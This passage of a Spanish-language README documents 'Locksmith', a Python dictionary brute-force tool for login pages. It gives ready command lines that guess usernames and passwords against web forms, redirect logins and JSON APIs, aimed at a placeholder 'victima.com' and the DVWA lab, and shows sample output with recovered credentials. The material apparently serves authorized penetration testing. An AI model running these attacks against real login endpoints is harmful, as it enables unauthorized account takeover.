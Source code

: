 ### Diccionarios de ataque
- Usuarios (`-U`)  
- Contraseñas (`-P`)  

Ejemplo:
```bash
python locksmith.py -u http://victima.com/login.php -U users.txt -P passwords.txt -m "Login Failed"
```

---

## 🌐 Ejemplos de uso

### 1. Ataque a formulario web tradicional
```bash
python locksmith.py -u http://dvwa/login.php -U users.txt -P passwords.txt -m "Login Failed" -p http_form
```

### 2. Ataque basado en redirecciones
```bash
python locksmith.py -u http://dvwa/login.php -U users.txt -P passwords.txt -p http_redirect -m "login.php"
```

### 3. Ataque contra API REST (JSON)
Ejemplo de login típico en JSON:
```http
POST /api/login HTTP/1.1
Content-Type: application/json

{
  "user": "juan",
  "pass": "1234"
}
```

Ejecución:
```bash
python locksmith.py -u http://victima.com/api/login -U users.txt -P passwords.txt -p http_json -i '{"username":"user","password":"pass"}' -m "error"
```

---

## 📊 Salida de resultados

Dependiendo del formato elegido (`-f`), Locksmith genera:
- **Consola** (por defecto).  
- **CSV** con resultados exportables.  
- **JSON** para integraciones automáticas.  

Ejemplo:
```
[+] Found valid credentials:
    user: admin
    password: 123456
```

---